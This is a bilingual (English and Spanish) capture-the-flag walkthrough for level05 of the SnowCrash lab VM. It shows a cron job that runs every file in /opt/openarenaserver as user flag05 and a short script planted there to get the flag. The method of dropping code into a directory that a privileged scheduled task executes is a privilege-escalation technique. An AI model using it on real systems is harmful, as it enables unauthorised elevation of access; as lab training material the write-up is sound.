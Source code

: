### LEVEL05

- When I enter, I find that I have an email.
    ```bash
    ssh level05@192.168.1.33 -p4242                                                                                               ─╯
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

    Good luck & Have fun

          192.168.1.33
    level05@192.168.1.33's password:
    You have new mail.
    level05@SnowCrash:~$
    ```
- In `/var/mail/` there is a file (level05).
    ```bash
    level05@SnowCrash:~$ ls -la /var/mail/
    total 4
    drwxrwsr-x  1 root mail  60 Mar  5  2016 .
    drwxr-xr-x  1 root root 180 Mar 12  2016 ..
    -rw-r--r--+ 1 root mail  58 Mar 31 19:28 level05
    ```

- `cat /var/mail/level05`
    ```bash
    level05@SnowCrash:~$ cat /var/mail/level05
    */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
    ```

- cat /usr/sbin/openarenaserver
    ```bash
    #!/bin/sh

    for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
    done

    ```

- The script that runs every 2 minutes executes all the files in `/opt/openarenaserver/` and then deletes them.

- `(ulimit -t 5)` is a command that limits execution to 5 seconds.

- I believe in /opt/openarenaserver an exploit with the following:
    ```bash
    echo "/bin/getflg > /tmp/flag05" > /opt/openarenaserver/exploit
    chmod 777 /opt/openarenaserver/exploit
    ```

- To see the result
    ```bash
    watch -n 0.1 cat /tmp/flag05
    ```

---

### LEVEL05

- Cuando entro encuentro que he tengo un mail
    ```bash
    ssh level05@192.168.1.33 -p4242                                                                                               ─╯
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

    Good luck & Have fun

          192.168.1.33
    level05@192.168.1.33's password:
    You have new mail.
    level05@SnowCrash:~$
    ```

- En `/var/mail/` hay un archivo (level05)
    ```bash
    level05@SnowCrash:~$ ls -la /var/mail/
    total 4
    drwxrwsr-x  1 root mail  60 Mar  5  2016 .
    drwxr-xr-x  1 root root 180 Mar 12  2016 ..
    -rw-r--r--+ 1 root mail  58 Mar 31 19:28 level05
    ```

- `cat /var/mail/level05`
    ```bash
    level05@SnowCrash:~$ cat /var/mail/level05
    */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
    ```

- cat /usr/sbin/openarenaserver
    ```bash
    #!/bin/sh

    for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
    done

    ```

- El script que se ejecuta cada 2 minutos. Lo que hace es ejecutar todos los archivos que hay en `/opt/openarenaserver/` y luego los borra

- `(ulimit -t 5)` es un comando que limita la ejecución a 5 segundos

- Creo en /opt/openarenaserver un exploit con lo siguiente:
    ```bash
    echo "/bin/getflg > /tmp/flag05" > /opt/openarenaserver/exploit
    chmod 777 /opt/openarenaserver/exploit
    ```

- Para ver el resultado
    ```bash
    watch -n 0.1 cat /tmp/flag05
    ```
